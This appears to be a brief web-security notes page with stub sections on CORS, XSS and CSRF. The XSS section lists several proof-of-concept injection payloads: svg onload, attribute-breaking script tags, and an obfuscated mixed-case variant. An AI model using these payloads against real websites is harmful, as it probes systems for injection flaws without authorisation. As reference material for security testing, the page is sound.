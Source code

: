 - [CORS #TODO](#cors-todo)
- [XSS #TODO](#xss-todo)
  - [Base Payload](#base-payload)
  - [Advance Payload](#advance-payload)
- [CSRF #TODO](#csrf-todo)



## CORS #TODO
[CORS跨域资源共享漏洞](https://kylin.moe/p/cors%E8%B7%A8%E5%9F%9F%E8%B5%84%E6%BA%90%E5%85%B1%E4%BA%AB%E6%BC%8F%E6%B4%9E/)

## XSS #TODO

### Base Payload

```
<svg/onload=alert(1)>
"><script>alert(1)</script>
'><script>alert(1)</script> 
```

### Advance Payload

```
<svg+svg+svg\/\/On+OnLoAd=alert(1)>
```

## CSRF #TODO
